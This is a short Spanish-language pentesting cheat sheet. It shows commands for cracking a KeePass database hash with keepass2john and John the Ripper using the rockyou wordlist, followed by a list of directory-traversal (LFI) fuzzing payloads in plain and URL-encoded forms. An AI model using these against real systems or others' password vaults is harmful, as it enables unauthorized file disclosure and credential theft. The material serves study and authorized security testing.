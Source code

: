 
## Keepass (gestor de contraseñas)

La extencion de las bases de datos es ***.kdbx**** 

```
keepass2john CEH.kdbx

john -w=/usr/share/wordlists/rockyou.txt hash


```
Como alternativa esta el keepassxc que tiene interfaz grafica yo creo esta mejor...

![image](https://github.com/gecr07/Acordeon/assets/63270579/b6c243ea-15cc-4793-907d-7a184cad8c1c)


## LFI payloads

Combina esto con wfuzz y podrias probar LFIs aunque siempre intenta manual pero de algo puede servir

```
../
../../
../../../
../../../../
../../../../../
../../../../../
../../../../../../
../../../../../../../..
../../../../../../../../
../../../../../../../../../
../../../../../../../../../../
..\
..\..\
..\..\..\
..\..\..\..\
..\..\..\..\..\
..\..\..\..\..\..\
..\..\..\..\..\..\..\
..\..\..\..\..\..\..\..\..\
..\..\..\..\..\..\..\..\..\..\
..\/
.\/.\/
.\/.\/.\/
.\/.\/.\/.\/
.\/.\/.\/.\/.\/
.\/.\/.\/.\/.\/.\/
.\/.\/.\/.\/.\/.\/.\/
.\/.\/.\/.\/.\/.\/.\/.\/
.\/.\/.\/.\/.\/.\/.\/.\/.\/
.\/.\/.\/.\/.\/.\/.\/.\/.\/.\/
%2e%2e%2f
%2e%2e%2f%2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f
%252e%252e%252f
%252e%252e%252f%252e%252e%252f
%252e%252e%252f%252e%252e%252f%252e%252e%252f
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f
```